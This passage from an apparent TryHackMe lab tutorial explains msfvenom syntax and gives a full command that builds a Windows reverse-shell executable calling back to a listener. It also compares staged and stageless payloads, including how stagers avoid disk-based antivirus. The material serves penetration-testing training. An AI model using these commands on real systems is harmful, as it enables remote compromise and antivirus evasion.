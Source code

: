 
The standard syntax for msfvenom is as follows:

msfvenom -p <PAYLOAD> <OPTIONS>

For example, to generate a Windows x64 Reverse Shell in an exe format, we could use:

msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>



Here we are using a payload and four options:
-f <format>
Specifies the output format. In this case that is an executable (exe)
-o <file>
The output location and filename for the generated payload.
LHOST=<IP>
Specifies the IP to connect back to. When using TryHackMe, this will be your tun0 IP address. If you cannot load the link then you are not connected to the VPN.
LPORT=<port>
The port on the local machine to connect back to. This can be anything between 0 and 65535 that isn't already in use; however, ports below 1024 are restricted and require a listener running with root privileges.


Staged vs Stageless

Before we go any further, there are another two concepts which must be introduced: staged reverse shell payloads and stageless reverse shell payloads.

Staged payloads are sent in two parts. The first part is called the stager. This is a piece of code which is executed directly on the server itself. It connects back to a waiting listener, but doesn't actually contain any reverse shell code by itself. Instead it connects to the listener and uses the connection to load the real payload, executing it directly and preventing it from touching the disk where it could be caught by traditional anti-virus solutions. Thus the payload is split into two parts -- a small initial stager, then the bulkier reverse shell code which is downloaded when the stager is activated. Staged payloads require a special listener -- usually the Metasploit multi/handler, which will be covered in the next task.
Stageless payloads are more common -- these are what we've been using up until now. They are entirely self-contained in that there is one piece of code which, when executed, sends a shell back immediately to the waiting listener.
Stageless payloads tend to be easier to use and catch; however, they are also bulkier, and are easier for an antivirus or intrusion detection program to discover and remove. Staged payloads are harder to use, but the initial stager is a lot shorter, and is sometimes missed by less-effective antivirus software. Modern day antivirus solutions will also make use of the Anti-Malware Scan Interface (AMSI) to detect the payload as it is loaded into memory by the stager, making staged payloads less effective than they would once have been in this area.